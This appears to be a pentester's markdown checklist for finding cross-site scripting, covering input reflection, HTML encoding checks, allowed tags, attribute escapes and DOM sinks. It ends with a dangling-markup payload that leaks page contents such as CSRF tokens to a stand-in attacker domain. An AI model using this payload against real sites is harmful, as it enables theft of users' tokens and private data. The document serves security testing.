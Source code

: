 # Cross-Site Scripting (XSS)

## Code Review Detection
Check for any user input or data input being written to HTML wihtout sanitization.

## Dynamic Testing Detection
Send unique strings to user inputs and see if any input is reflected back to any components on the web page.

### Encoding
Check encodings of the following characters being reflected in HTML
```
&
<
>
"
'
```

They should appear as
```
& -> &amp
< -> &lt;
> -> &gt;
" -> &#034; -> &quot;
' -> &#039; -> &apos;
```

If the characters are being reflected into other forms of data representation, check the specific characters that are applicable.

### Available Tags
Some applications allow certain HTML tags to be included in user input. Check if they lead to XSS using [Portswigger's XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

### HTML Tag Attributes
If the user input is reflected in tag attributes and it is possible to escape the HTML attrbitue, this can lead to XSS by specifying malicious tag attributes.

### DOM-based XSS
Look for [DOM sinks](/attack_sinks/dom_xss_sinks.md).

### Dangling Markup Injection
Where XSS is not possible, try using payload like the following:
```
"><img src='//attacker-website.com?
```
The rest of the HTML page would be treated like a parameter and leaked to attacker controlled domain. This could be used to grab CSRF tokens, email messages, or sensitive data on the page.
